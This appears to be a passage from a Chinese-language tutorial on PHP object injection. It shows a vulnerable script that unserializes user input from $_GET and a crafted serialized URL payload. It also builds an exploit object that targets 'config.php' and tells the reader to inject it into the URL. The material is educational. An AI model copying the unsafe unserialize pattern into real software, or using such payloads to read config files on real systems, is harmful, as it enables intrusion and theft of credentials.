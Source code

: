 ```

// Main User class

class User
{
    // Class data

    public $age = 0;
    public $name = '';

    // 允许对象作为一个字符串输出上面的 data

    public function __toString()
    {
        return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
}

// 用户可控

$obj = unserialize($_GET['usr_serialized']);

// 输出 __toString

echo $obj;

?>

```

so,我们构造 url

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;} 
```

再想想，如果我们用序列化调用 FileClass 呢

我们创建利用代码

```
<?php

$fileobj = new FileClass();
$fileobj->filename = 'config.php';

echo serialize($fileobj);

?>

```

接着用生成的 exp 注入 url
